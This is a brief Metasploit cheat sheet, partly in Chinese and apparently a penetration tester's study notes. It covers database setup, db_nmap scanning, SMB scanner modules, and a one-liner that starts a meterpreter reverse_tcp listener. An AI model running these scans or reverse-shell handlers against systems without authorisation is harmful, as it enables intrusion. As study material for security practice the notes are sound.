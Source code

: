 # Metasploit
补充：
post-exploitation：
pivoting tech
transport protocol

## basic

```
sudo systemctl start postgresql
sudo systemctl enable postgresql

sudo msfdb init

sudo apt update; sudo apt install metasploit-framework

use
back
previous
```

### 配合DB
```
service -h

db_nmap ip -A -Pn

hosts 
services -p 445 

workspace [name]
```

### 快速启动
```
msfconsole -q -x "use exploit/multi/handler;\
set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
set LHOST 192.168.119.196;\
set LPORT 443;\
run"
```

## modules
### auxiliary
protocol enumeration, port scanning, fuzzing, sniffing, and more.

```
show auxiliary

search type:auxiliary name:smb
use scanner/smb/smb2
info

// auto 
services -p 445 --rhosts
```
